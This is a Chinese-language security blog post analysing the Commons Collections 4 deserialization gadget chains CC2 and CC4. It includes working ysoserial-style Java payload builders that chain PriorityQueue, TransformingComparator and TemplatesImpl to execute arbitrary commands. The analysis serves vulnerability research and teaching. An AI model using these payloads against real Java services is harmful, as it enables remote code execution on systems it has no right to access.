





# CommonsCollections2、4

## 0x01 TransformingComparator

前面分析的几条 CC 链都是 commons-collections < 3.x 版本的利用，之后 Apache 开发不再延续这个版本，而是推出了新的 4.x 版本。还是和分析 3.x 一样找调用了 `transform()` 的方法，定位到 `org.apache.commons.collections4.comparators.TransformingComparator#compare()`。

这个类不存在对 `readobject()` 和 `compare()` 的调用，不能作为 kick-off ，但实现了 `Serializable` 接口，这是 gadget 形成的必要条件，标记一下，继续看别的类。



## 0x02 PriorityQueue

CC2 中使用的 kick-off 是 `PriorityQueue` 。这是一个 jdk 的原生集合，是基于优先级堆的无限制优先级队列，默认情况下元素根据自然顺序进行排序，也可以在构建时指定比较器 `Comparator` 进行排序。

`PriorityQueue#readObject()` 中，先将数据反序列化还原为 queue，再调用 `heapify()` 进行排序，`heapify()` 中对 size 进行移位，size 值可以通过反射修改或直接 add 俩元素增加数组长度





然后通过 `heapify()` 调用 `siftDown()`，满足 `comparator` 非空的条件进入 `siftDownUsingComparator()`



在  `siftDownUsingComparator()` 找到调用 `comparator.compare()` 的代码可以与先前构造的 Chain 拼接



## 0x03 去除Transformer[]

```java
    public Queue<Object> getObject(final String command) throws Exception {
        Object templatesImpl = Gadgets.createTemplatesImpl(command);

        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
//        final Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(TrAXFilter.class),
//                new InstantiateTransformer(
//                        new Class[]{Templates.class},
//                        new Object[]{templatesImpl})};
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesImpl),
                new InvokerTransformer("newTransformer", new Class[0], new Object[0]),
                new ConstantTransformer(1),
        };
        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");
        // Reflections.setFieldValue(queue, "size", 2);
        TransformingComparator transformingComparator = new TransformingComparator(transformerChain);
        Reflections.setFieldValue(queue, "comparator", transformingComparator);
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        return queue;
    }
```

先按我们的方式通过 `TemplatesImpl` 实现，但是这里我们还是使用了 Transformer[] 与 ysoserial 的不同，在 [wh1t3p1g](https://www.anquanke.com/post/id/192619) 的文章中介绍了怎么在 3.2.1 环境下的无数组改造，这篇文章紧扣 shiro 来分析为什么需要改造以及怎么改造。现在的话还是基于 4.0 铺开， 先看看这个数组中的元素， `InvokerTransformer` 的目的是调用 `newTransformer` 方法，而 `ConstantTransformer` 的作用是初始化一个恶意对象，在 CC1 的分析中提到这是为了解决 `AnnotationInvocationHandler.readobject()` 中 value 被 `AnnotationTypeMismatchExceptionProxy` 封装一层的问题。CC2 中并没有使用这个 kick-off，所以可以去除 `ConstantTransformer`，那么数组长度为1，就自然可以免去数组了。

```java
final Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(templatesImpl),
        new InvokerTransformer("newTransformer", new Class[0], new Object[0]),
        new ConstantTransformer(1),
};
```

整体的思路是 `InvokerTransformer` 先调用了一个无关方法，再反射将构造好的 transformer 放到数组第一位。这里使用了与 ysoserial `toString()` 不同的方法`hashCode()` ，即我们这里调用 `queue.add(1)` 添加 `Integer` 对象。使用 `hashCode()` 来进行举例的原因是 `toString()` 和 `hashCode()` 一样都在 `Object` 对象中存在。

```java
public Queue<Object> getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("hashCode", null, null);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;

    return queue;
}
```

## 0x04 为什么 TransformingComparator 需要实现 Serializable？

这个问题其实就是对 Java 序列化机制的理解程度，在分析调用链时，很多人的关注点通常都在 readObject() 上，忽略了另一个同样重要的方法，writeObject() ，将 CC2 的包换成 3 版本，就会发现在进入 `java.io.ObjectOutputStream#defaultWriteFields()`  这个方法后就会报错。

Java 类实例序列化时该类的字段需要满足以下条件之一：

1. **字段本身是基本类型或包装类型：** 基本类型（如 `int`、`double` 等）以及其对应的包装类型（如 `Integer`、`Double` 等）都是可以被序列化的。
2. **字段实现了 `Serializable` 接口：** 如果一个类的字段是自定义类的对象，那么该自定义类需要实现 `Serializable` 接口，以表明它的实例可以被序列化。
3. **字段被标记为 `transient`：** 如果一个字段被标记为 `transient`，那么它将不会被序列化。这可以用于排除某些敏感信息或不需要序列化的字段。

所以 PriorityQueue 的 comparator 字段也需要满足上述条件之一，以便该对象可以被正确序列化，`org.apache.commons.collections.comparators.TransformingComparator` 没有实现 `Serializable` 自然不能利用了。

## 0x05 CommonsCollections4

这条链可以看成CC2 和 CC3 的结合 Gadget 如下 `PriorityQueue+ TransformingComparator + Transformer + TrAXFilter + TemplatesImpl` ，顺着之前的形式写法如下。ysoserial 的写法就是用的反射去挨个构造 Transformer[] 中的 `ConstantTransformer` 和 `InstantiateTransformer`。

```java
public Queue<Object> getObject(final String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{new ConstantTransformer(1)});
    // real chain for after setup
    final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[]{Templates.class},
                    new Object[]{templates})};

    // create queue with numbers
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformerChain));
    queue.add(1);
    queue.add(1);
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
    return queue;
}
```


